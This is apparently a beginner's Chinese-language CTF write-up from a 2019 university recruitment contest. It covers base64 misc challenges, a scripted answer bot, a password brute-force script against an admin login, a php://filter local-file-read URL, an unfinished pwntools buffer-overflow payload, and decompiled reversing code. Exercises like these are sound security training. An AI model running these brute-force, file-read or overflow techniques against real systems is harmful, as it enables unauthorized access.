# Asuri 招新赛WriteUP 20191117

网址： http://139.9.212.218:8000/challenges  

官方安排及WriteUP：https://github.com/Kit4y/2019-Asuri-Recruitment-Src-and-wp  

## test

` flag{this_is_test_flag} ` 


## misc-签到



base64解码即得到

`flag{1_want_jiamus_p0wer}`  


## baby-web-九曲十八弯

 http://desperadoccy.club:39011/ 



base64解码

`Asuri{view_source's_power}`


## 快速计算

 http://47.102.107.100:39012/ 

连续20次在1-2s内判断是否正确，即可得到flag。

````python
import requests
import re
import time

s = requests.Session()
r = s.get("http://47.102.107.100:39012/")
for i in range(20):
    time.sleep(1)
    equation = re.findall(r'<div>(.*)=(.*)</div>', r.text)[0]
    print(equation)
    answer = eval(equation[0])
    if answer == eval(equation[1]):
        values = {'answer': 'true'}
    else:
        values = {'answer': 'false'}
    r = s.post("http://47.102.107.100:39012/", data=values)
    r.encoding = 'utf-8'
    print(r.text)

````



`Asuri{python_1s_th3_be3t_l4ngu4ge}`


## medium_web_justburp

 http://139.9.212.218:39010/ 

查找网站目录下的文件



访问`robots.txt` 得到：  



访问`hint.php` 得到一个文件  



尝试以`admin`作为用户名，用以上信息作为密码写脚本进行登录，  

然而好像没有成功（有可能有成功的没看到？？？  

> 难受了，现场写的时候脑乱了，把所有登录数据都打印出来了，然后没找到flag...  
> 加一个if重新来就看到了惹emmm

**爆破一波**

```python
# -*- coding:utf-8 -*-
import requests

s = requests.Session()
r = s.get("http://139.9.212.218:39010/index.php")
r.encoding = "utf-8"
print(r.text)

with open('name-pass.txt', 'r') as file:
    contents = file.read().split()
    # print(contents)
    passwords = contents

for password in passwords:
    values = {'name': 'admin',
              'password': password}
    r = s.get("http://139.9.212.218:39010/index.php", params=values)
    r.encoding = 'utf-8'
    if '密码错误' not in r.text:
        print(r.text)
```

即可得到

```html
<!DOCTYPE html>
<html><head><meta charset="utf-8" />
<title>Hi hacker</title>
</head>
<body bgcolor="bisque">
<form action="index.php" method="get">用户名：<br><input type="text" name="name"><br>密码：<br><input type="text" name="password"><br><br><input type="submit" value="登陆">
</form>
<p>hint:admin用户的密码似乎在某个页面里 </p>
<p>
看你骨骼精奇，就将flag交于你了！Asuri{Burp_1s_Gre@t}</p>
</body>
</html>

```

flag:  `Asuri{Burp_1s_Gre@t}`

> 其实这题用BurpSuite更快，导入字典直接爆破都不用自己写jio本。。  
> 然而我现场还在搜它怎么用……


## hard_web_php是世界上最好的语言

 http://139.9.212.218:39009/ 

改cookie重发



访问`read_file.php`，得到  



访问`no_flag_here.php`  ，构造参数进入根目录  



然而！emmm这个scandir怎么获取这个flag文件内容啊！！！

> 看了大师傅的WriteUP，发现PHP还可以这么读取文件...（下面 

构造`file=php://filter/read=convert.base64-encode/resource=`+绝对路径

http://139.9.212.218:39009/read_file.php?file=php://filter/read=convert.base64-encode/resource=../../../flag04ad59.php

或者

http://139.9.212.218:39009/read_file.php?file=php://filter/read=convert.base64-encode/resource=/flag04ad59.php

得到一串Base64字符串

`PD9waHANCiAgICAvL0FzdXJpe1dFQl9XSU5ORVJ9DQo/Pg==`  

解码后：

```PHP
<?php
    //Asuri{WEB_WINNER}
?>
```

flag: `Asuri{WEB_WINNER}`


## easy_pwn







```python
from pwn import *  # 引入pwntools库
import time

sh = remote('49.235.243.206', 9001)  # 创建与靶场服务器的连接

offset = 0x60+0x8  # 偏移
system_addr = 0x400766  # system函数地址
for i in range(4, 20):
    sh.recvuntil('Please input your passworld size')
    sh.sendline(p64(i))  # 向程序发送数据
    sh.recvuntil('Please input your password')
    payload = offset * b'a' + p64(system_addr)  # 构造攻击数据
    sh.sendline(payload)  # 向程序发送数据
    sh.interactive()  # 将控制流从程序转移到自己这里

```

完了不会写，嘤嘤嘤


## medium_rev

```python
#!/usr/bin/env python
# encoding: utf-8
# 如果觉得不错，可以推荐给你的朋友！http://tool.lu/pyc

def encrypt_for_each():
    index = [
        0] * 100
    for i in range(100):
        tmp = i ^ 77
        yield tmp
        None
    


def encrypt(msg, key):
    iters = encrypt_for_each()
    enc = []
    for (m, k) in zip(msg, key):
        e = m ^ k ^ iters.__next__()
        enc.append(e)
    
    return enc


def generate_key():
    
    def check_prime(num):
        if num < 2:
            return False
        for i in range(2, num):
            if num % i == 0:
                return False
        return True

    test = [
        8,
        61,
        85,
        25,
        121,
        53,
        26,
        0,
        81,
        52,
        124,
        22,
        137,
        56,
        94,
        107,
        59,
        132,
        90,
        3,
        51,
        46,
        77,
        127,
        35,
        86,
        134,
        20,
        73,
        32,
        66,
        99,
        7,
        69,
        122,
        4,
        142,
        23,
        80,
        109,
        60,
        79,
        36,
        62,
        5,
        104,
        102,
        14,
        58,
        149,
        31,
        96,
        68,
        114,
        116,
        11,
        95,
        87,
        146,
        123,
        15,
        135,
        33,
        37,
        110,
        19,
        106,
        30,
        130,
        101,
        97,
        98,
        141,
        2,
        47,
        6,
        24,
        131,
        16,
        111,
        150,
        55,
        1,
        76,
        12,
        138,
        64,
        120,
        118,
        29,
        145,
        147,
        9,
        113,
        103,
        40,
        92,
        71,
        72,
        129,
        139,
        100,
        63,
        133,
        42,
        125,
        74,
        88,
        143,
        144,
        38,
        140,
        67,
        119,
        136,
        115,
        54,
        21,
        50,
        108,
        128,
        57,
        112,
        43,
        84,
        70,
        78,
        28,
        41,
        93,
        44,
        13,
        18,
        10,
        48,
        27,
        83,
        65,
        17,
        75,
        126,
        39,
        49,
        91,
        34,
        82,
        45,
        148,
        105,
        89,
        117]
    key = (lambda .0: continue[ i for i in .0 ])(filter(check_prime, test))
    return key

if __name__ == '__main__':
    key = generate_key()
    msg = [
        22,
        21,
        167,
        66,
        9,
        27,
        3,
        119,
        42,
        99,
        68,
        86,
        13,
        166,
        3,
        120,
        22,
        59,
        9,
        77,
        40,
        3,
        233,
        41,
        67,
        108,
        80,
        179,
        86,
        36,
        31,
        107,
        77,
        4,
        75]
    print('encryt message is {}'.format(msg))


```


`lambda .0: continue[ i for i in .0 ]` 这个`.0`执行不了啊emmm

我换成x也报错唉！

## middle_pwn







## 小结  

 

第一次打CTF呢，虽然只拿了个第六，还拿了个娃娃233  

除了石榴园的真的没多少打这个比赛的呀。  

我好菜啊，这次一题pwn都没写出来，好难过嘤嘤嘤    

现场查BurpSuite怎么用也是绝了（那节培训我没去emmm   

总之CTF还是挺好玩的哈哈哈哈，有空还是要好好学一波呢！ 


> 等我有空再折腾一下，搭个博客吧 咕咕咕

 